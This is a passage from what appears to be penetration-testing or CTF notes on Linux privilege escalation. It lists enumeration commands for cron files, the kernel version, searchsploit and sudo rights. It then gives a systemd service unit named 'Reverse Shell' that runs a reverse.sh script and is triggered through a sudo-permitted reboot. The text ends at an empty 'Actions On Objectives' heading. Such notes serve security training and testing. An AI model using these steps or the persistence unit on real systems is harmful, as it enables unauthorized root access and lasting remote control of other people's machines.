 Check programs referenced for modification privileges
```
cd /path/to/cron/referenced/file && ls -alt
```
### Kernel Exploits
No SUID programs then check kernel version and check searchsploit for local privledge escalation vulnerabilities or check linpeas.sh output
```
hostnamectl
```

If hostnamectl isn't available
```
uname -r
```

```
searchsploit #.#.#
```
### Sudo Perms
Check Sudo permissions
```sh
sudo -l
```

From the output see what can be modified or escalated from https://gtfobins.github.io or via systemctl services

Example if `/usr/bin/reboot` has sudo privilege 

```ini
[Unit]
Description=Reverse Shell
After=network-online.target
 
[Service]
Type=simple
WorkingDirectory=/home/USER
ExecStart=/home/USER/reverse.sh
TimeoutSec=30
RestartSec=15s
User=USER
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure
 
[Install]
WantedBy=multi-user.target
```

Then run the privileged command  
```
sudo reboot
```
## Actions On Objectives

